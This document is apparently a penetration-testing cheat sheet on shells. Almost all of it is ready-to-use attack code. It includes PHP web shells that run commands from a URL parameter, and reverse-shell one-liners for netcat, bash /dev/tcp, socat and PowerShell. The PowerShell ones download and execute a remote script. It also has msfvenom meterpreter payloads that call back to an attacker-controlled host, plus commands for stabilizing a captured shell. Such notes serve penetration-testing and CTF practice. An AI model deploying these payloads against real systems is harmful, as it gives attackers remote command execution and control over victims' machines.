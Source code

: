 # shells

## Web shells

- Simple web shells

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- Infamous pentestmonkey PHP reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- PHP reverse shell (windows also) [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

## Payloads

A list of reverse shell payloads can be found at [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). 
Common payloads include

- Netcat traditional

```
nc ip 4444 -e /bin/bash
```

- Netcat 
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 4444 >/tmp/f
```

- Bash TCP
```shell
#!/bin/bash
bash -i >& /dev/tcp/$me/4444 0>&1
```

- Socat
```shell
# listener
socat TCP-L:4444 FILE:`tty`,raw,echo=0

# victim
socat TCP:me:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- Powershell

```powershell
powershell -c "iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $me -Port 4444"
```

- Powershell (staged)

```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$me:8888/Invoke-PowerShellTcp.ps1')
powershell Import-Module ./Invoke-PowerShellTcp.ps1; Invoke-PowershellTcp -Reverse -IPAddress $me -Port 4444
```

- Msfvenom

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$me LPORT=4444 -f elf -o rev
msfvenom -p linux/x64/meterpreter/bind_tcp RHOST=$ip LPORT=4444 -f elf -o rev.sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$me LPORT=4444 -f exe -o rev.exe
```

## Stabilization

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
alias grep='grep --color=auto'
export TERM=xterm
```

depending on Python version available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.

